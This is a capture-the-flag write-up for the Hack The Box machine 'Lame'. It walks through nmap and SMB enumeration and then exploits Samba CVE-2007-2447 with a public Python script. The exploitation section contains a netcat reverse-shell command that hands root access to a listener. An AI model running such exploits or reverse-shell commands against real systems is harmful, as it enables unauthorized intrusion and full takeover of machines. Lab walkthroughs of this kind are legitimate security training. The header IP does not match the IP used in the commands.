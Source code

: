 # HTB - Lame

#### Ip: 10.10.10.171
#### Name: Lame
#### Rating: Easy

----------------------------------------------------------------------

![Lame.png](../assets/lame_assets/Lame.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Lame]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.10.10.3  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-08 09:48 CDT
Nmap scan report for 10.10.10.3
Host is up (0.061s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.31
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h56m11s, deviation: 2h49m43s, median: -3m49s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-06-08T10:44:55-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.37 seconds
```

Ok, looks just like FTP, SSH, SMB and distcc are open on the target for TCP.

FTP has anonymous login enabled, but there was nothing in there.

Moving over to SMB we can see we have read/write access to the `/tmp` share:

![lame_smb_shares.png](../assets/lame_assets/lame_smb_shares.png)

Logging into the share with smbclient we find a pretty generic `/tmp` folder:

```
┌──(ryan㉿kali)-[~/HTB/Lame]
└─$ smbclient -U '' \\\\10.10.10.3\\tmp              
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun  8 10:12:56 2024
  ..                                 DR        0  Sat Oct 31 01:33:58 2020
  orbit-makis                        DR        0  Sat Jun  8 05:25:32 2024
  .ICE-unix                          DH        0  Sat Jun  8 02:58:13 2024
  vmware-root                        DR        0  Sat Jun  8 02:58:17 2024
  .X11-unix                          DH        0  Sat Jun  8 02:58:37 2024
  gconfd-makis                       DR        0  Sat Jun  8 05:25:32 2024
  5584.jsvc_up                        R        0  Sat Jun  8 02:59:14 2024
  .X0-lock                           HR       11  Sat Jun  8 02:58:37 2024
  vgauthsvclog.txt.0                  R     1600  Sat Jun  8 02:58:11 2024
```

Not much of interest here. Going back to our Nmap results I note the SMB version and look for exploits and notice there is a Metasploit module available for this https://www.exploit-db.com/exploits/16320.

Digging a bit deeper I find this repo, with a Python version of the exploit. https://github.com/Ziemni/CVE-2007-2447-in-Python

Lets give it a shot.

### Exploitation

We can fire off the exploit with no changes needed to the code with:

```
┌──(ryan㉿kali)-[~/HTB/Lame]
└─$ python smbExploit.py 10.10.10.3 139 'nc -e /bin/sh 10.10.14.31 4444'
```

And we catch a shell back in our listener as root:

![lame_shell.png](../assets/lame_assets/lame_shell.png)

Nice, we can now grab both the user.txt flag and the root.txt flag:

![lame_user.png](../assets/lame_assets/lame_user.png)

![lame_root.png](../assets/lame_assets/lame_root.png)

Thanks for following along!

-Ryan

---------------------------------------------------


